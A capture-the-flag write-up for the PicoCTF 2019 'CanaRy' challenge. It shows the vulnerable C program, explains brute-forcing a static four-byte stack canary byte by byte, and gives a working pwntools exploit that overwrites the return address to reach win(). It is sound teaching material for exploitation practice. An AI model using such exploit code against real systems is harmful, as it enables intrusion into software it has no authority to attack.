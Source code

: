 ```yaml
---
title: Static Canary
description: Exploiting a buffer overflow attack with a static canary.
---
```


# Buffer Overflow - Static Canary

## Summary

Exploiting a buffer overflow attack with a static canary.

## Challenge

### Statement

!!! note ""
    Challenge : CanaRy from PicoCTF 2019.

This time we added a canary to detect buffer overflows. Can you still find a way to retrieve the flag from this program.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## Answer

In the source code below, the canary is load from a text file and is only four bytes, `#define CANARY_SIZE 4`.

So, we can bruteforce it. The good way to do it, it's by bruteforcing the canary one byte at a time.

!!! example
    padding + 'a' : Stack Smashing Detected -> The canary is NOT starting by the letter 'a'.<br>
    padding + 'b' : Stack Smashing Detected -> The canary is NOT starting by the letter 'b'.<br>
    ...<br>
    padding + 'o' : Ok... Now Where'''s the Flag? -> The canary is starting by the letter 'o'.<br>
    Then, you go on with : 'oa', 'ob', 'oc', ... until you get the four bytes.

Once you retrieve the whole canary, you now can jump to the *win* function.

Let's make a python script with *pwntools* to flag this challenge :

```python linenums="1"
#!/usr/bin/env python3
from string import printable
from pwn import process, p32, context, ELF

context.log_level = "error"

elf = ELF('./vuln')
win_func_addr = p32(elf.symbols['win'])
padding = 32 * "A"


def retrieve_canary():
    canary = ""

    for i in range(4):
        for c in printable.replace("\n", ""):
            p = process("./vuln")
            p.sendlineafter("Buffer?\n> ", str(len(padding + canary + c)))
            p.sendlineafter("Input> ", padding + canary + c)

            data = p.recvline()
            if not "Stack Smashing Detected" in data.decode("utf-8"):
                canary += c
                break

    return canary


if __name__ == "__main__":
    canary = retrieve_canary()
    payload = (padding + canary + "A" * 16).encode() + win_func_addr

    p = process("./vuln")
    p.sendlineafter("Buffer?\n> ", str(len(payload)))
    p.sendlineafter("Input> ", payload)
    p.interactive()
```
